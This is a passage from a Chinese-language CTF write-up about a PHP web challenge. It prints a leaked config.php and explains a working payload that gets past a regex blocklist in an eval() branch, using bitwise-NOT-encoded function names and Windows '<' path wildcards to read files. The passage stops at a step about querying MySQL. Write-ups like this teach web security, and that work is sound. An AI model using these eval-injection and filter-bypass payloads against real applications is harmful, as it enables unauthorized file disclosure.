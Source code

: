 讀出來的`config.php`:

```php
<?php
    // ***********************************
    // THIS IS THE CONFIG OF THE MYSQL DB
    // ***********************************
    $host = "localhost";
    $user = "admin";
    $pass = "";
    $port = 8787;
    // hint:flag-is-in-the-database XDDDDDDD
    // ====================================
```

<br>

**Method 0x2**

賽中發現有許多隊伍使用 `eval()` 這條路來讀 `config.php`

在`eval()`這條 if 分枝中，你的輸入 `$_` 會被放進 `eval("return $_;")`

但在這之前，還有一些嚴格的檢查:

```php
if( preg_match('/[\x00-!\'0-9"`&$.,|^[{_zdxfegavpos\x7F]+/i',$_) || @strlen(count_chars(strtolower($_), 0x3)) > 0xd || @strlen($_) > 19 )
    exit($secret);
```

不過我們可以使用 `~` NOT運算來繞過這些限制

例如: `~urldecode("%8D%9A%9E%9B%99%96%93%9A")` 就等同 `readfile`.

<br>

在 Windows 中，對於路徑正規上，有許多神奇的萬用字元

例如: 

`>` 會匹配一個任意字元 (就像 Linux 上的 `?`) 

`<` 會匹配零個或多個任意字元 (就像 Linux 上的 `*`)

(更多整理: [My-CTF-CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E8%B7%AF%E5%BE%91%E6%AD%A3%E8%A6%8F%E5%8C%96))

最後, 結合 `~` 和 `<` 就能完整讀出 `config.php`:

`/?op=-9&Σ>―(%23°ω°%23)♡→=(~%8D%9A%9E%9B%99%96%93%9A)(~%9C%90%C3%C3)`

(以上的效果等同 `readfile("co<<")`)

<br>

### Step 3

從 `config.php` 的內容，可以知道 flag 在 MySQL Database中

所以我們下個目標，就是去請求後端 MySQL Server，並且讀出請求結果
